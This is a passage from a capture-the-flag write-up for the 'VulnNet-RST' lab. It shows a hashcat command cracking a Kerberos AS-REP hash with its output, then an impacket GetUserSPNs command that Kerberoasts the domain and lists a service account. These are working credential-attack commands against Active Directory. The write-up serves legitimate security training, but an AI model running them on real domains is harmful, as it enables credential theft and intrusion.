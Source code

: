 ### Cracking the hash

We'll be using hashcat for this.

```
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt 
```

```
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5asrep$23$t-skid@VULNNET-RST:[REDACTED]
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, AS-REP
Hash.Target......: $krb5asrep$23$t-skid@VULNNET-RST:6a409957813c6af504...500e39
Time.Started.....: Sat May 15 08:44:43 2021 (9 secs)
Time.Estimated...: Sat May 15 08:44:52 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   402.1 kH/s (6.82ms) @ Accel:32 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 3178496/14344385 (22.16%)
Rejected.........: 0/3178496 (0.00%)
Restore.Point....: 3170304/14344385 (22.10%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: tkwyr9nrj8 -> tj030499

Started: Sat May 15 08:44:39 2021
Stopped: Sat May 15 08:44:53 2021
```

Note that the following credentials were for Remote IPC. Let's use these to Kerberoast and obtain credentials for the other services that are running.

### Keberoasting 

```
python3 /opt/impacket/examples/GetUserSPNs.py 'VULNNET-RST.local/t-skid:*********' -outputfile keberoast.hash -dc-ip $IP
```

```
ServicePrincipalName    Name                MemberOf                                                       PasswordLastSet             LastLogon                   Delegation 
----------------------  ------------------  -------------------------------------------------------------  --------------------------  --------------------------  ----------
CIFS/vulnnet-rst.local  enterprise-core-vn  CN=Remote Management Users,CN=Builtin,DC=vulnnet-rst,DC=local  2021-03-11 19:45:09.913979  2021-03-13 23:41:17.987528
```
